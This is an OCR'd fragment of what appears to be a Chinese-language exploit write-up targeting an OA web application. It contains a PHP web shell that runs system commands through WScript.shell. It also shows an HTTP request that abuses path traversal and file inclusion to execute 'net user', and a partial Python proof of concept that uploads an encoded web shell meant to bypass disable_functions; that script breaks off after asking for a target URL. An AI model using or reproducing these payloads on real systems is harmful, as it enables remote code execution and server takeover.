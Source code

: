 ```
$wsh = new COM(‘WScript.shell’);

$exec = $wsh->exec("cmd /c ".$command);

$stdout = $exec->StdOut();

$stroutput = $stdout->ReadAll();

echo $stroutput;

?>

------WebKitFormBoundarypyfBh1YB4pV8McGB–` 
```

```
POST /mac/gateway.php HTTP/1.1
Host: 10.10.20.116:88
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 71
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user 
```

### poc （上传+文件包含+rce）

```
import os
import requests

# 定义webshell，因为是包含，所以用写入马比较方便

# 这个马自带bypass disable_function 功能

shell = ‘’’<?php

$fp = fopen(‘readme.php’, ‘w+’);

$a = base64_decode(“JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==”);

fwrite($fp, urldecode($a));

fclose($fp);

?>

‘’’

# 输入目标

url = input(“input the TARGET(example:[https://127.0.0.1:1080](https://127.0.0.1:1080))>”)

# 定义上传目录和包含目录

upload_url = url+"/ispirit/im/upload.php"

```